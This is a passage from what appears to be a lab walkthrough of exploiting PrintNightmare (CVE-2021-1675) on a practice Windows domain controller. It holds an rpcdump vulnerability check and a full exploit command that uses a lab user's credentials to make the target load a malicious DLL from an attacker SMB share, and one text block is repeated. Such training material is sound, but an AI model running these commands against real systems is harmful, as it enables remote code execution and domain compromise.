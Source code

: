A brief explanation for the command in the above image:

    This is the name of the SMB share for the exploit execution. (Example: \\ATTACKER_IP\share\malicious.dll)
    This is the local folder that will store the malicious DLL. (Example: /root/Desktop/share/malicious.dll)

Before we blindly just execute an exploit at the target, let's first examine if the target fits the criteria to exploit it.

```
Check if the target is vulnerable to this exploit

root@attackbox:~/Desktop/pn# rpcdump.py @10.10.118.174 | egrep 'MS-RPRN|MS-PAR' 
Protocol: [MS-RPRN]: Print System Remote Protocol 
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```

Yep, looks good. It's finally time to run the exploit. Navigate to the location where you downloaded the exploit code from GitHub, which should be /root/Desktop/pn/CVE-2021-1675. 

We will use the Python script to exploit the PrintNightmare vulnerability against the Windows 2019 Domain Controller.

```
Check if the target is vulnerable to this exploit

root@attackbox:~/Desktop/pn# rpcdump.py @10.10.118.174 | egrep 'MS-RPRN|MS-PAR' 
Protocol: [MS-RPRN]: Print System Remote Protocol 
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```

Yep, looks good. It's finally time to run the exploit. Navigate to the location where you downloaded the exploit code from GitHub, which should be /root/Desktop/pn/CVE-2021-1675. 

We will use the Python script to exploit the PrintNightmare vulnerability against the Windows 2019 Domain Controller.

```
Exploit code syntax

root@attackbox:~/Desktop/pn/CVE-2021-1675# python CVE-2021-1675.py Finance-01.THMdepartment.local/sjohnston:mindheartbeauty76@10.10.118.174 '\\192.168.0.100\share\malicious.dll'
```

A brief explanation for the command in the above image:

    python CVE-2021-1675.py -> you're instructing Python to run the following Python script. The values which follow are the parameters the script needs to exploit the PrintNightmare vulnerability successfully.
    Finance-01.THMdepartment.local -> the name of the domain controller (Finance-01) along with the name of the domain (THMdepartment.local)
    sjohnston:mindheartbeauty76@10.10.118.174 -> the username and password for the low privilege Windows user account. 
    \\ATTACKER_IP_ADDRESS\share\malicious.dll -> the location to the SMB path storing the malicious DLL. 

If all goes well, you should see an output similar to the below image.
